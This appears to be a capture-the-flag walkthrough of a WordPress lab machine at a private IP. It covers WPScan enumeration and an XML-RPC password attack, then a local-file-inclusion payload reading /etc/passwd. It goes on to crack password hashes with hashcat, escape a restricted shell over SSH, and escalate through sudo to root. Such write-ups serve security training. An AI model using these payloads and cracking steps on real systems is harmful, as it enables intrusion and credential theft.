 |      - https://core.trac.wordpress.org/changeset/47635/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xhx9-759f-6p2w
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Customizer
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/4eee26bd-a27e-4509-a3a5-8019dd48e429
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11025
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47633/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4mhg-j6fx-5g3c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Search Block
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/e4bda91b-067d-45e4-a8be-672ccf8b1a06
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11030
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47636/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-vccm-6gmc-qhjh
 |
 | [!] Title: WordPress < 5.4.1 - Cross-Site Scripting (XSS) in wp-object-cache
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/e721d8b9-a38f-44ac-8520-b4a9ed6a5157
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11029
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47637/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-568w-8m88-8g2c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in File Uploads
 |     Fixed in: 5.3.3
 |     References:
 |      - https://wpscan.com/vulnerability/55438b63-5fc9-4812-afc4-2f1eff800d5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11026
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47638/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-3gw2-4656-pfr2
 |      - https://hackerone.com/reports/179695
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS in Block Editor
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/831e4a94-239c-4061-b66e-f5ca0dbb84fa
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4046
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rpwf-hrh2-39jf
 |      - https://pentest.co.uk/labs/research/subtle-stored-xss-wordpress-core/
 |      - https://www.youtube.com/watch?v=tCh7Y8z8fb4
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS via Media Files
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/741d07d1-2476-430a-b82f-e1228a9343a4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4047
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-8q2w-5m27-wm27
 |
 | [!] Title: WordPress < 5.4.2 - Open Redirection
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/12855f02-432e-4484-af09-7d0fbf596909
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4048
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/10e2a50c523cf0b9785555a688d7d36a40fbeccf
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-q6pw-gvf4-5fj5
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated Stored XSS via Theme Upload
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/d8addb42-e70b-4439-b828-fd0697e5d9d4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4049
 |      - https://www.exploit-db.com/exploits/48770/
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-87h4-phjv-rm6p
 |      - https://hackerone.com/reports/406289
 |
 | [!] Title: WordPress < 5.4.2 - Misuse of set-screen-option Leading to Privilege Escalation
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/b6f69ff1-4c11-48d2-b512-c65168988c45
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4050
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/dda0ccdd18f6532481406cabede19ae2ed1f575d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4vpv-fgg2-gcqc
 |
 | [!] Title: WordPress < 5.4.2 - Disclosure of Password-Protected Page/Post Comments
 |     Fixed in: 5.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/eea6dbf5-e298-44a7-9b0d-f078ad4741f9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25286
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/c075eec24f2f3214ab0d0fb0120a23082e6b1122
 |
 | [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
 |     Fixed in: 5.3.7
 |     References:
 |      - https://wpscan.com/vulnerability/6a3ec618-c79e-4b9c-9020-86b157458ac5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29450
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pmmh-2f36-wvhq
 |      - https://core.trac.wordpress.org/changeset/50717/
 |      - https://www.youtube.com/watch?v=J2GXmxAdNWs
 |
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 |     Fixed in: 5.3.8
 |     References:
 |      - https://wpscan.com/vulnerability/4cd46653-4470-40ff-8aac-318bee2f998d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36326
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19296
 |      - https://github.com/WordPress/WordPress/commit/267061c9595fedd321582d14c21ec9e7da2dcf62
 |      - https://wordpress.org/news/2021/05/wordpress-5-7-2-security-release/
 |      - https://github.com/PHPMailer/PHPMailer/commit/e2e07a355ee8ff36aba21d0242c5950c56e4c6f9
 |      - https://www.wordfence.com/blog/2021/05/wordpress-5-7-2-security-release-what-you-need-to-know/
 |      - https://www.youtube.com/watch?v=HaW15aMzBUM
 |
 | [!] Title: WordPress < 5.8.2 - Expired DST Root CA X3 Certificate
 |     Fixed in: 5.3.10
 |     References:
 |      - https://wpscan.com/vulnerability/cc23344a-5c91-414a-91e3-c46db614da8d
 |      - https://wordpress.org/news/2021/11/wordpress-5-8-2-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/ticket/54207
 |
 | [!] Title: WordPress < 5.8 - Plugin Confusion
 |     Fixed in: 5.8
 |     References:
 |      - https://wpscan.com/vulnerability/95e01006-84e4-4e95-b5d7-68ea7b5aa1a8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44223
 |      - https://vavkamil.cz/2021/11/25/wordpress-plugin-confusion-update-can-get-you-pwned/

[+] WordPress theme in use: twentytwenty
 | Location: http://192.168.56.57/tsweb/wp-content/themes/twentytwenty/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://192.168.56.57/tsweb/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 1.8
 | Style URL: http://192.168.56.57/tsweb/wp-content/themes/twentytwenty/style.css?ver=1.0
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.56.57/tsweb/wp-content/themes/twentytwenty/style.css?ver=1.0, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] gracemedia-media-player
 | Location: http://192.168.56.57/tsweb/wp-content/plugins/gracemedia-media-player/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2013-07-21T15:09:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: GraceMedia Media Player 1.0 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/a4f5b10f-3386-45cc-9548-dd7bbea199d6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9618
 |      - https://www.exploit-db.com/exploits/46537/
 |      - https://seclists.org/fulldisclosure/2019/Mar/26
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.56.57/tsweb/wp-content/plugins/gracemedia-media-player/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.56.57/tsweb/wp-content/plugins/gracemedia-media-player/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <====================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=====================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] user
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.56.57/tsweb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
Trying user / rahulgehlaut@mail.com Time: 00:00:01 <===========================> (183 / 183) 100.00% Time: 00:00:01

[i] No Valid Passwords Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 0
 | Requests Remaining: 22

[+] Finished: Mon Jan  3 12:04:22 2022
[+] Requests Done: 336
[+] Cached Requests: 53
[+] Data Sent: 137.091 KB
[+] Data Received: 142.42 KB
[+] Memory used: 220.305 MB
[+] Elapsed time: 00:00:04

```



```shell
[i] Plugin(s) Identified:

[+] gracemedia-media-player
 | Location: http://192.168.56.57/tsweb/wp-content/plugins/gracemedia-media-player/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2013-07-21T15:09:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: GraceMedia Media Player 1.0 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/a4f5b10f-3386-45cc-9548-dd7bbea199d6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9618
 |      - https://www.exploit-db.com/exploits/46537/
 |      - https://seclists.org/fulldisclosure/2019/Mar/26
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.56.57/tsweb/wp-content/plugins/gracemedia-media-player/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.56.57/tsweb/wp-content/plugins/gracemedia-media-player/readme.txt

```

## Vulnerability


```shell
searchsploit GraceMedia Media Player
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin GraceMedia Media Player 1.0 - Local File Inclusion              | php/webapps/46537.txt
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

```shell
cat /usr/share/exploitdb/exploits/php/webapps/46537.txt
=============================================
MGC ALERT 2019-001
- Original release date: February 06, 2019
- Last revised:  March 13, 2019
- Discovered by: Manuel García Cárdenas
- Severity: 7/10 (CVSS Base Score)
- CVE-ID: CVE-2019-9618
=============================================

I. VULNERABILITY
-------------------------
WordPress Plugin GraceMedia Media Player 1.0 - Local File Inclusion

II. BACKGROUND
-------------------------
Hassle-free and user-friendly way to add a Media player directly to your
website.

III. DESCRIPTION
-------------------------
This bug was found in the file:

/gracemedia-media-player/templates/files/ajax_controller.php

Vulnerable code:

require_once($_GET['cfg']);

The parameter "cfg" it is not sanitized allowing include local files

To exploit the vulnerability only is needed use the version 1.0 of the HTTP
protocol to interact with the application.

IV. PROOF OF CONCEPT
-------------------------
The following URL have been confirmed that is vulnerable to local file
inclusion.

Local File Inclusion POC:

GET
/wordpress/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd

V. BUSINESS IMPACT
-------------------------
Public defacement, confidential data leakage, and database server
compromise can result from these attacks. Client systems can also be
targeted, and complete compromise of these client systems is also possible.

VI. SYSTEMS AFFECTED
-------------------------
GraceMedia Media Player <= 1.0

VII. SOLUTION
-------------------------
Disable plugin until a fix is available, vendor does not fix after 2
requests.

VIII. REFERENCES
-------------------------
https://es.wordpress.org/plugins/gracemedia-media-player/

IX. CREDITS
-------------------------
This vulnerability has been discovered and reported
by Manuel García Cárdenas (advidsec (at) gmail (dot) com).

X. REVISION HISTORY
-------------------------
February 06, 2019 1: Initial release
March 13, 2019 2: Revision to send to lists

XI. DISCLOSURE TIMELINE
-------------------------
February 06, 2019 1: Vulnerability acquired by Manuel Garcia Cardenas
February 06, 2019 2: Email to vendor without response
February 21, 2019 3: Second email to vendor without response
March 13, 2019 4: Send to the Full-Disclosure lists

XII. LEGAL NOTICES
-------------------------
The information contained within this advisory is supplied "as-is" with no
warranties or guarantees of fitness of use or otherwise.

XIII. ABOUT
-------------------------
Manuel Garcia Cardenas
Pentester
```

### /etc/passwd



```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
rohit:x:1000:1000:hackNos:/home/rohit:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/:1001:1003::/home/flag:/bin/rbash

```

Notice `flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/`

## crack hash

```shell
cat os-hacknos-2.1-2022.01.03
$1$flag$vqjCxzjtRc7PofLYS2lWf/
```

```shell
hashcat -w3 -m2600 -a0 -o cracked.os-hacknos-2.1-2022.01.03 os-hacknos-2.1-2022.01.03 /usr/share/wordlists/rockyou.txt
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344403
* Bytes.....: 139921705
* Keyspace..: 14344403


Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$flag$vqjCxzjtRc7PofLYS2lWf/
Time.Started.....: Mon Jan  3 12:17:42 2022 (0 secs)
Time.Estimated...: Mon Jan  3 12:17:42 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   757.1 kH/s (56.77ms) @ Accel:128 Loops:250 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 180224/14344403 (1.26%)
Rejected.........: 0/180224 (0.00%)
Restore.Point....: 0/14344403 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidate.Engine.: Device Generator
Candidates.#1....: melehifokivai -> santiago25
Hardware.Mon.#1..: Temp: 49c Fan: 33% Util: 99% Core:1980MHz Mem:6801MHz Bus:16

Started: Mon Jan  3 12:17:27 2022
Stopped: Mon Jan  3 12:17:43 2022
```

```shell
cat cracked.os-hacknos-2.1-2022.01.03
$1$flag$vqjCxzjtRc7PofLYS2lWf/:topsecret
```

## SSH as flag

```shell
ssh flag@$RHOST
The authenticity of host '192.168.56.57 (192.168.56.57)' can't be established.
ED25519 key fingerprint is SHA256:rIQkBhqHj9tWiuhz+gMT5Zzwq4h/22qu5apja7gnWY8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.57' (ED25519) to the list of known hosts.
flag@192.168.56.57's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan  3 06:52:27 UTC 2022

  System load:  0.0               Processes:             101
  Usage of /:   46.6% of 9.78GB   Users logged in:       0
  Memory usage: 18%               IP address for enp0s3: 192.168.56.57
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

5 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Could not chdir to home directory /home/flag: No such file or directory
flag@hacknos:/$ id
uid=1001(flag) gid=1003(flag) groups=1003(flag)
flag@hacknos:/$ whoami
flag
flag@hacknos:/$ hostname
hacknos
flag@hacknos:/$ date
Mon Jan  3 06:52:35 UTC 2022
```



This is restricted shell.

```shell
flag@hacknos:/$ cd /home
-rbash: cd: restricted
```

## SSH as flag with bash

```shell
ssh flag@$RHOST -t bash
flag@192.168.56.57's password:
Could not chdir to home directory /home/flag: No such file or directory
flag@hacknos:/$ ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Nov 17  2019 .
drwxr-xr-x 24 root  root  4096 Nov 17  2019 ..
drwxr-x--x  4 rohit rohit 4096 Nov 17  2019 rohit
flag@hacknos:/$ cd /home
```



```shell
flag@hacknos:/home$ ls -lAhR
.:
total 4.0K
drwxr-x--x 4 rohit rohit 4.0K Nov 17  2019 rohit
ls: cannot open directory './rohit': Permission denied
```

### SUID binaries

```shell
flag@hacknos:/home$ find / -perm -4000 2>/dev/null
/snap/core/8039/bin/mount
/snap/core/8039/bin/ping
/snap/core/8039/bin/ping6
/snap/core/8039/bin/su
/snap/core/8039/bin/umount
/snap/core/8039/usr/bin/chfn
/snap/core/8039/usr/bin/chsh
/snap/core/8039/usr/bin/gpasswd
/snap/core/8039/usr/bin/newgrp
/snap/core/8039/usr/bin/passwd
/snap/core/8039/usr/bin/sudo
/snap/core/8039/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8039/usr/lib/openssh/ssh-keysign
/snap/core/8039/usr/lib/snapd/snap-confine
/snap/core/8039/usr/sbin/pppd
/snap/core/7270/bin/mount
/snap/core/7270/bin/ping
/snap/core/7270/bin/ping6
/snap/core/7270/bin/su
/snap/core/7270/bin/umount
/snap/core/7270/usr/bin/chfn
/snap/core/7270/usr/bin/chsh
/snap/core/7270/usr/bin/gpasswd
/snap/core/7270/usr/bin/newgrp
/snap/core/7270/usr/bin/passwd
/snap/core/7270/usr/bin/sudo
/snap/core/7270/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7270/usr/lib/openssh/ssh-keysign
/snap/core/7270/usr/lib/snapd/snap-confine
/snap/core/7270/usr/sbin/pppd
/bin/su
/bin/mount
/bin/fusermount
/bin/ping
/bin/umount
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
```

### SGID binaries

```shell
flag@hacknos:/home$ find / -perm -2000 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_extrausers_chkpwd
/snap/core/8039/etc/chatscripts
/snap/core/8039/etc/ppp/peers
/snap/core/8039/sbin/pam_extrausers_chkpwd
/snap/core/8039/sbin/unix_chkpwd
/snap/core/8039/usr/bin/chage
/snap/core/8039/usr/bin/crontab
/snap/core/8039/usr/bin/dotlockfile
/snap/core/8039/usr/bin/expiry
/snap/core/8039/usr/bin/mail-lock
/snap/core/8039/usr/bin/mail-touchlock
/snap/core/8039/usr/bin/mail-unlock
/snap/core/8039/usr/bin/ssh-agent
/snap/core/8039/usr/bin/wall
/snap/core/8039/usr/lib/snapd/snap-confine
/snap/core/8039/usr/local/lib/python3.5
/snap/core/8039/usr/local/lib/python3.5/dist-packages
/snap/core/8039/var/local
/snap/core/8039/var/mail
/snap/core/7270/etc/chatscripts
/snap/core/7270/etc/ppp/peers
/snap/core/7270/sbin/pam_extrausers_chkpwd
/snap/core/7270/sbin/unix_chkpwd
/snap/core/7270/usr/bin/chage
/snap/core/7270/usr/bin/crontab
/snap/core/7270/usr/bin/dotlockfile
/snap/core/7270/usr/bin/expiry
/snap/core/7270/usr/bin/mail-lock
/snap/core/7270/usr/bin/mail-touchlock
/snap/core/7270/usr/bin/mail-unlock
/snap/core/7270/usr/bin/ssh-agent
/snap/core/7270/usr/bin/wall
/snap/core/7270/usr/lib/snapd/snap-confine
/snap/core/7270/usr/local/lib/python3.5
/snap/core/7270/usr/local/lib/python3.5/dist-packages
/snap/core/7270/var/local
/snap/core/7270/var/mail
/var/log/journal
/var/log/journal/bfb6cec1b2a44d598ddfd8eae8c880cd
/var/mail
/var/local
/usr/bin/at
/usr/bin/ssh-agent
/usr/bin/mlocate
/usr/bin/wall
/usr/bin/crontab
/usr/bin/chage
/usr/bin/bsd-write
/usr/bin/expiry
/usr/local/lib/python2.7
/usr/local/lib/python2.7/site-packages
/usr/local/lib/python2.7/dist-packages
/usr/local/lib/python3.6
/usr/local/lib/python3.6/dist-packages
/usr/local/share/fonts
/usr/lib/x86_64-linux-gnu/utempter/utempter
/usr/lib/snapd/snap-confine
```

### backups

```shell
flag@hacknos:/home$ find / -type f -name "*backup*" 2>/dev/null
/lib/modules/4.15.0-70-generic/kernel/drivers/net/team/team_mode_activebackup.ko
/lib/modules/4.15.0-70-generic/kernel/drivers/power/supply/wm831x_backup.ko
/usr/lib/open-vm-tools/plugins/vmsvc/libvmbackup.so
/usr/src/linux-headers-4.15.0-70-generic/include/config/wm831x/backup.h
/usr/src/linux-headers-4.15.0-70-generic/include/config/net/team/mode/activebackup.h
/usr/share/man/man8/vgcfgbackup.8.gz
flag@hacknos:/home$ find / -type f -name "*bak*" 2>/dev/null
/var/backups/passwd.bak
/var/backups/gshadow.bak
/var/backups/group.bak
/var/backups/shadow.bak
flag@hacknos:/home$ find / -type d -name "*backup*" 2>/dev/null
/snap/core/8039/var/backups
/snap/core/7270/var/backups
/var/backups
```

```shell
flag@hacknos:/home$ cd /var/backups/passbkp
flag@hacknos:/var/backups/passbkp$ ls
md5-hash
flag@hacknos:/var/backups/passbkp$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Nov 17  2019 .
drwxr-xr-x 3 root root 4096 Jan  3 06:25 ..
-rw-r--r-- 1 root root   32 Nov 17  2019 md5-hash
flag@hacknos:/var/backups/passbkp$ cat md5-hash
$1$rohit$01Dl0NQKtgfeL08fGrggi0
```

### hashcat again

rohit:!%hack41

## Becoming rohit

```shell
flag@hacknos:/var/backups/passbkp$ su rohit
Password:
rohit@hacknos:/var/backups/passbkp$ id
uid=1000(rohit) gid=1000(rohit) groups=1000(rohit),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
rohit@hacknos:/var/backups/passbkp$ whoami
rohit
rohit@hacknos:/var/backups/passbkp$ hostname
hacknos
rohit@hacknos:/var/backups/passbkp$ date
Mon Jan  3 07:02:42 UTC 2022
rohit@hacknos:/var/backups/passbkp$ cd
rohit@hacknos:~$ ls -la
total 48
drwxr-x--x 4 rohit rohit 4096 Nov 17  2019 .
drwxr-xr-x 3 root  root  4096 Nov 17  2019 ..
-rw------- 1 rohit rohit 2712 Nov 17  2019 .bash_history
-rw-r----- 1 rohit rohit  220 Apr  4  2018 .bash_logout
-rw-r----- 1 rohit rohit 3771 Apr  4  2018 .bashrc
drwx------ 2 rohit rohit 4096 Nov 17  2019 .cache
drwx------ 3 rohit rohit 4096 Nov 17  2019 .gnupg
-rw------- 1 root  root   120 Nov 17  2019 .mysql_history
-rw-r----- 1 rohit rohit  807 Apr  4  2018 .profile
-rw-r----- 1 rohit rohit    0 Nov 17  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root  root   702 Nov 17  2019 user.txt
-rw------- 1 rohit rohit 7878 Nov 17  2019 .viminfo
rohit@hacknos:~$ cat user.txt
############################################
 __    __   _______   ______    ______
/  |  /  | /       | /      \  /      \
$$ |  $$ |/$$$$$$$/ /$$$$$$  |/$$$$$$  |
$$ |  $$ |$$      \ $$    $$ |$$ |
$$ \__$$ | $$$$$$  |$$$$$$$$/ $$ |
$$    $$/ /     $$/ $$       |$$ |
 $$$$$$/  $$$$$$$/   $$$$$$$/ $$/


############################################

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```



## Becoming root

```shell
rohit@hacknos:~$ sudo -l
[sudo] password for rohit:
Matching Defaults entries for rohit on hacknos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rohit may run the following commands on hacknos:
    (ALL : ALL) ALL
rohit@hacknos:~$ sudo bash
root@hacknos:~# id
uid=0(root) gid=0(root) groups=0(root)
root@hacknos:~# whoami
root
root@hacknos:~# cd
root@hacknos:~# cd /root
root@hacknos:/root# ls -la
total 48
drwx------  5 root root  4096 Nov 17  2019 .
drwxr-xr-x 24 root root  4096 Nov 17  2019 ..
-rw-------  1 root root  1867 Nov 17  2019 .bash_history
-rw-r--r--  1 root root  3106 Apr  9  2018 .bashrc
drwx------  2 root root  4096 Nov 17  2019 .cache
drwx------  3 root root  4096 Nov 17  2019 .gnupg
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root  1066 Nov 17  2019 root.txt
drwx------  2 root root  4096 Nov 17  2019 .ssh
-rw-------  1 root root 10665 Nov 17  2019 .viminfo
root@hacknos:/root# cat root.txt
 _______                         __              __  __     #
/       \                       /  |            /  |/  |    #
